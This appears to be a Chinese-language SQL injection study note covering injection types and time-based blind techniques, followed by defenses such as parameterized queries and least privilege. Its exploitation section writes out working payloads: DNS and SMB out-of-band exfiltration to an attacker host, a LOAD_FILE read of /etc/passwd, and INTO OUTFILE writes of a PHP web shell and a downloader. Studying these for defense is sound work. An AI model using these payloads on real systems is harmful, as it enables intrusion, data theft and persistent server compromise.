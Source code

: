 # SQL注入漏洞

### 原理

SQL injection主要是对用户请求中的输入参数过滤不严格造成的，如动态拼接字符串。

### 类型
* boolean-based blind
* time-based blind
* error-based
* UNION query-based
* stacked queries
* out-of-band

### 漏洞影响

（以时间型盲注为例）

**时间型盲注(Time-Based Blind SQL Injection Attacks)**：可根据不同响应时间确定是否存在SQL注入漏洞

* Test case
  * 如对某个使用MySQL数据库的WEB系统测试时发送的请求含payload `(select*from(select(sleep(20)))a)` 得到response的时间为20秒

* Attacks case
  * 时间型盲注漏洞 只需利用 条件语法(Condition syntax) 与延时函数 就能判断出执行结果True/False 根据结果判断逐个字符 从而得到数据库中的具体数据
    * [Time-Based Blind SQL Injection Attacks](http://www.sqlinjection.net/time-based/)
      * MySQL`SLEEP(time)` `BENCHMARK(count, expr)`
      * SQL Server`WAIT FOR DELAY 'hh:mm:ss'` `WAIT FOR TIME 'hh:mm:ss'`
      * Oracle
    * [Timing-based Blind SQL Attacks – Hacker Noon](https://hackernoon.com/timing-based-blind-sql-attacks-bd276dc618dd)
      * Postgres`SELECT CASE WHEN secret = 'secret' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;`
    * 自写脚本实现自动化获取(用二分法加速判断)

```
test.get_version() #获取版本号
test.get_user_first() #获取数据库用户权限
test.get_user_count() #获取数据库用户数量
test.get_user_len() #获取数据库用户长度
test.get_user() #获取数据库当前用户名
test.get_db_count() #获取数据库数量
test.get_db_len() #获取数据库长度
test.get_database() #获取数据库名
test.get_table_len() #获取表名长度
test.get_table() #获取表名
test.get_columns_len() #获取字段名长度
test.get_columns() #获取字段名
test.get_content() #获取第一列第一个字段内容
```


[SQLi漏洞的各种具体利用方式【漏洞危害】 - The SQL Injection Knowledge Base](https://websec.ca/kb/sql_injection#MySQL_Writing_Files)

* 数据泄露 - 带外通道得到数据(Out Of Band Channeling)
  * DNS Requests
    * `SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.attacker.com\\'));`
  * SMB Requests
    * `' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt`
* 读取文件内容(Reading Files) Files can be read if the user has FILE privileges.
  * LOAD_FILE()
    * `SELECT LOAD_FILE('/etc/passwd');`
    * `SELECT LOAD_FILE(0x2F6574632F706173737764);`
* 写入文件(Writing Files) Files can be created if the user has FILE privileges.
  * `INTO OUTFILE` `INTO DUMPFILE`
    * PHP shell `SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';` access `http://localhost/shell.php?c=cat%20/etc/passwd`
    * PHP downloader `SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'` access `http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt`


### 防御方法

* 1. 预编译语法/参数化查询

```
//PHP
//PDO扩展中的 bindParam()方法绑定参数
```

```
//.NET
//SqlCommand()
//OleDbCommand()
```

```
//JAVA
PreparedStatement()
/(Hibernate
createQuery()
```

```
//SQLite
sqlite3_prepare()
```

```
// Golang(Postgres)
// This is for Postgres. Other SQL variants may use the ? character.
db.Exec("INSERT INTO users(name, email) VALUES($1, $2)",
  "Jon Calhoun", "jon@calhoun.io")
```

```
// Golang(mysql)
// http://mindbowser.com/golang-go-database-sql/
package main
 import (
 _ "github.com/go-sql-driver/mysql"
 "database/sql"
 "log"
 )
 
 func main(){
 db, err := sql.Open("mysql", "root:root@tcp(127.0.0.1:3306)/employeedb")
 
 // Connection Pooling methods
 db.SetConnMaxLifetime(500)
 db.SetMaxIdleConns(50)
 db.SetMaxOpenConns(10)
 db.Stats()
 
 if err != nil {
 log.Fatal(err)
 }
 tx,_:=db.Begin()
 stmt, err := tx.Prepare("INSERT INTO user(id,username) VALUES(?,?)")
 res,err:=stmt.Exec(4,"Abhijit")
 res,err=stmt.Exec(5,"Yogesh")
 if err!=nil{
 tx.Rollback()
 log.Fatal(err)
 }
 tx.Commit()
 log.Println(res)
}
```


* 2. 存储过程

存储过程的安全性和预编译语法相同。
存储过程是用"SQL代码"定义和存储在数据库中的，使用时被应用程序调用。
如果使用了存储过程，开发者应该避免在存储过程中生成不安全的动态SQL查询语句。
```
//JAVA中使用存储过程，该存储过程已经定义在数据库中:
String custname = request.getParameter("customerName");
try {
    CallableStatement cs = connection.prepareCall("{call sp_getAccountBalance(?)}");
    cs.setString(1, custname);
    ResultSet results = cs.executeQuery();
} catch (SQLException se) {
}
```

* 3. 白名单输入验证(White List Input Validation)

* 4. 数据库用户权限最小化(Least Privilege)

参考OWASP [SQL_Injection_Prevention_Cheat_Sheet.md](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.md)
